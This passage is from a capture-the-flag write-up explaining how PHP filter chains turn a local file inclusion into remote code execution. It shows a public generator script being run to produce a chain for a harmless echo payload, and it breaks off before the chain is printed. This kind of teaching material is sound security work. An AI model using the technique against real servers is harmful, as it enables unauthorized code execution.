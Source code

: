 ## Beyond Root - LFI2RCE via PHP Filters

### Background

There’s a really nice method for turning an LFI into RCE using PHP filters. As far as I know, this was first posted [here](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters) and HackTricks based on [this CTF writeup from loknop](https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d), and later Synacktiv published an awesome [blog post](https://www.synacktiv.com/publications/php-filters-chain-what-is-it-and-how-to-use-it.html) and a [script POC](https://github.com/synacktiv/php_filter_chain_generator).

At a high level, this works by passing text into various PHP filters. PHP filters are meant to read some resource and then apply some filter to it (like base64 encode / decode or converting text format).

The author of this attack figured out how to pass even an empty string into a long chain of filters to produce any output on the page the user wants. And if this is PHP output, because it’s in an `include`, then it will be executed.

Updated to add a [video](https://www.youtube.com/watch?v=TnLELBtmZ24) I did on this technique:

### Exploit

For now, I’ll just use the [provided script](https://github.com/synacktiv/php_filter_chain_generator) (I am interested in doing a more in-depth explanation of how this works - let me know if you’re interested).

I’ll clone the repo, and run the script:

```

oxdf@hacky$ python php_filter_chain_generator.py -h                                                                                                          usage: php_filter_chain_generator.py [-h] [--chain CHAIN] [--rawbase64 RAWBASE64]

PHP filter chain generator.

options:
-h, --help            show this help message and exit
--chain CHAIN         Content you want to generate. (you will maybe need to pad with spaces for your payload to work)
--rawbase64 RAWBASE64   The base64 value you want to test, the chain will be printed as base64 by PHP, useful to debug.

```

It takes a “chain”, which is the content I want to be a part of the page. I’ll have it add some PHP that will echo a message. It generates this long output:

```

oxdf@hacky$ python php_filter_chain_generator.py --chain '<?php echo "0xdf was here"; ?>'
[+] The following gadget chain will generate the following code : <?php echo "0xdf was here"; ?> (base64 value: PD9waHAgZWNobyAiMHhkZiB3YXMgaGVyZSI7ID8+)
```